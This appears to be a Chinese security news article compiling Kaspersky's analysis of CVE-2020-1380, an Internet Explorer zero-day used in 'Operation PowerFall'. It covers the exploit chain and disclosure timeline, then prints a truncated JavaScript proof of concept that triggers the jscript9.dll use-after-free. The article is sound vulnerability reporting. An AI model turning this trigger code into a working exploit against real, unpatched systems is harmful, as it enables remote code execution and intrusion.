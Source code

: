 > 原文链接: https://www.anquanke.com//post/id/213989 


# 已遭利用的Windows 0day漏洞 CVE-2020-1380 分析


                                阅读量   
                                **164166**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



卡巴斯基发布博客文章，简要分析了微软在8月补丁星期二修复的一个已遭利用 0day CVE-2020-1380。如下内容编译自该文章。

文章指出，2020年5月，卡巴斯基阻止了利用 IE 恶意脚本攻击某韩国公司的一次攻击活动。进一步分析发现该攻击利用了此前未知的完整链，内含两个0day exploit：一个是IE 的远程代码执行 exploit，一个是 Windows 的提权 exploit。和此前 OperationWizardOpium 攻击使用的完整链不同，这个新的完整链利用的是 Windows 10的最新版本，测试发现对 IE 11和 Windows 10 版本 18363 x64 的可靠利用。

2020年6月8日，卡巴斯基将问题告知微软并得到证实。当时，微软已开始为 CVE-2020-0986 准备补丁，不过刚开始对它的漏洞利用程度描述为“可能性较小”。该漏洞补丁在2020年6月9日发布。

微软在8月的补丁星期二为 JScript中的释放后使用漏洞分配编号 CVE-2020-1380。卡巴斯基将相关攻击活动称为“OperationPowerFall”。卡巴斯基表示目前尚无法确切地将它和任何威胁组织相联系，但鉴于和之前 exploit 存在的相似之处，它认为 DarkHotel 可能是攻击的幕后黑手。



## IE 11 远程代码执行 exploit

近期发现的 IE 0day exploit 利用的是位于遗留的 JavaScript 引擎 jscript.dll 中的CVE-2020-0674、CVE-2019-1429、CVE-2019-0676和CVE-2018-8563。而CVE-2020-1380是存在于 jscript9.dll 中的漏洞，默认出现在IE9及后续版本中，因此，微软推荐的缓解措施（限制使用 jscript.dll）无法保护用户免受攻击。

CVE-2020-1380 是由 JIT 优化和缺乏对 JIT 编译代码进行检查造成的一个释放后使用漏洞。如下是触发该漏洞的 PoC：

```
function func(O, A, F, O2) `{`
    arguments.push = Array.prototype.push;
    O = 1;
    arguments.length = 0;
    arguments.push(O2);
    if (F == 1) `{`
        O = 2;
    `}`

    // execute abp.valueOf() and write by dangling pointer
    A[5] = O;
`}`;

// prepare objects
var an = new ArrayBuffer(0x8c);
var fa = new Float32Array(an);

// compile func
func(1, fa, 1, `{``}`);
for (var i = 0; i &lt; 0x10000; i++) `{`
    func(1, fa, 1, 1);
`}`

var abp = `{``}`;
abp.valueOf = function() `{`

    // free 
    worker = new Worker('worker.js');
```